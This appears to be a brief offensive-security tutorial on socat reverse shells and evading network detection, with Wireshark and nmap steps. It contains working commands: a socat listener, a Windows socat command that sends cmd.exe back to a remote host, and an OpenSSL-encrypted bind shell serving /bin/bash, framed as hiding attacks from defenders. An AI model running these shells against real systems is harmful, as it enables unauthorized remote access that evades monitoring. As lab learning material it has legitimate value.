 # Socat Reverse Shell
Steps to ensure our tools and scans stay hidden. This example will include a TCP connection using port 23

1. Choose an interface to monitor
`ip a` - View networking information

`eth0` - Selected interface

2. Setup a Filter in Wireshark & Capture
Set `tcp.port == 23` in the filter and press capture to monitor traffic.

3. Run Scan
`nmap -sV -sC 192.168.1.1 23` 

4. View results in Wireshark
By default "Nmap" is printed as the User-Agent making it easily detectiable by defenders.

## Un Encrpyted Traffic
Encryption can work both ways when hiding sensitive information. This demonstration will outline why it is crucial to include encryption in your attacks.

### Socat Reverse Shell
A reverse shell gives you access back to the target computer.

```sh
# socat -d -d TCP4-LISTEN:22, fork STDOUT
```

```sh
> socat.exe TCP4:192.168.1.22:22 EXEC:'cmd.exe', pipes
```

### View in Wireshark
- Open wireshark and notice that all exploit commands have been transmitted in the clear for defenders to see. 

### Solution: Encryption
We can test socats' encryption by attempting an ecrypted connection on port 443

```sh
# socat OPENSSL-LISTEN:443,cert-bind_shell.pem,verify=0,fork EXEC:/bin/bash
```


